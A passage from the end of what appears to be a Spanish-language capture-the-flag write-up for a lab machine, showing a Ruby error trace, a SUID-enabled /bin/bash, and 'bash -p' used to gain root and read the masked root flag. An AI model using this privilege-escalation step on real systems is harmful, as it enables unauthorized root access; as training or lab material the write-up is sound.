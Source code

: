 ```bash
	3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)

henry@precious:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Dado que el binario de `/bin/bash` dispone de `SUID`, podemos convertirnos en `root` como se muestra a continuación. Finalmente logramos visualizar la flag de **root.txt**.

```bash
henry@precious:~$ bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
ed3b1080a1**********************
```
